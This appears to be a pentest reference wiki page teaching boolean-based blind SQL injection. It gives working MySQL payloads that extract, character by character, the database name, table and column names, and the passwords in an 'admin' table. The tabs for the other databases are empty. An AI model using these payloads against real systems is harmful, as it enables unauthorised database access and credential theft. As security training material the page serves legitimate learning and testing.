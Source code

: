 # Boolean Based - Blind SQL Injection

## Theory
Boolean-based SQL injection is a technique that relies on sending an SQL query to the database based on which the technique forces the application to return different results.  
The result allows an attacker to judge whether the payload used returns true or false. Even though no data from the database are recovered, the results give the attacker valuable information.
Depending on the boolean result (TRUE or FALSE), the content within the response will change, or remain the same.

## Practice

### Getting database
{% tabs %}
{% tab title="MySQL" %}
First, retrieve the database length:
```sql
1' AND (SELECT LENGTH(database()))=1-- -  #False  
1' AND (SELECT LENGTH(database()))=2-- -  #False
1' AND (SELECT LENGTH(database()))=3-- -  #True -> It means the length of database is 3 characters.
```

Second, retrieve the database name:
```sql
--True -> It means the first character is p. Note that ASCII code is in decimal
1' AND (SELECT HEX(SUBSTRING(database(), 1, 1)))=HEX('p')-- -
1' AND (SELECT ASCII(SUBSTRING(database(), 1, 1)))=112-- - 

--True -> It means the second character is w.
1' AND (SELECT HEX(SUBSTRING(database(), 2, 1)))=HEX('w')-- -

--True -> It means the third character is n.
1' AND (SELECT HEX(SUBSTRING(database(), 3, 1)))=HEX('n')-- -
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

### Getting Tables
{% tabs %}
{% tab title="MySQL" %}
First, retrieve the number of tables:
```sql
1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=2-- -  #True -> 2 tables
```

Second, retrieve length of each table
```sql
-- If True, the first table lenght is 5
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=5-- - 

-- If True, the second table lenght is 5
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)=5-- - 
```

Third, retrieve name of each table
```sql
-- If True, the first char of the first table is u
1'AND (SELECT HEX(SUBSTRING(table_name, 1, 1))FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=HEX('u')-- -

-- If True, the second char of the first table is s
1'AND (SELECT HEX(SUBSTRING(table_name, 2, 1)) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=HEX('s')-- -

-- If True, the first char of the second table is p
1'AND (SELECT HEX(SUBSTRING(table_name, 1, 1)) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)=HEX('p')-- -
```

{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

### Getting Columns
{% tabs %}
{% tab title="MySQL" %}
First, retrieve the number of columns:
```sql
1' AND (SELECT COUNT(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='admin')=2-- -  #True -> 2 columns
```

Second, retrieve length of each column
```sql
-- If True, the first column's name lenght is 3
1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 0,1)=3-- - 

-- If True, the second table's name lenght is 8
1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 1,1)=8-- - 
```

Third, retrieve name of each column
```sql
-- If True, the first char of the first column is a
1'AND (SELECT HEX(SUBSTRING(column_name, 1, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 0,1)=HEX('a')-- -

-- If True, the second char of the first column is b
1'AND (SELECT HEX(SUBSTRING(column_name, 2, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 0,1)=HEX('b')-- -

-- If True, the first char of the second column is p
1'AND (SELECT HEX(SUBSTRING(column_name, 1, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 1,1)=HEX('p')-- -
```

{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

### Dump values
{% tabs %}
{% tab title="MySQL" %}

First, retrieve the lenght of the value (we take password column as example):
```sql
1' AND (SELECT LENGTH(password) FROM admin LIMIT 0,1)=9-- -  #True -> 1st password is 9 char
```

Second, retrieve values
```sql
-- If True, the first password's char is p
1'AND (SELECT HEX(SUBSTRING(password, 1, 1))FROM admin LIMIT 0,1)=HEX('p')-- -

-- If True, the second password's char is a
1'AND (SELECT HEX(SUBSTRING(password, 2, 1))FROM admin LIMIT 0,1)=HEX('a')-- -
```

{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}
{% embed url="https://defendtheweb.net/article/blind-sql-injection" %}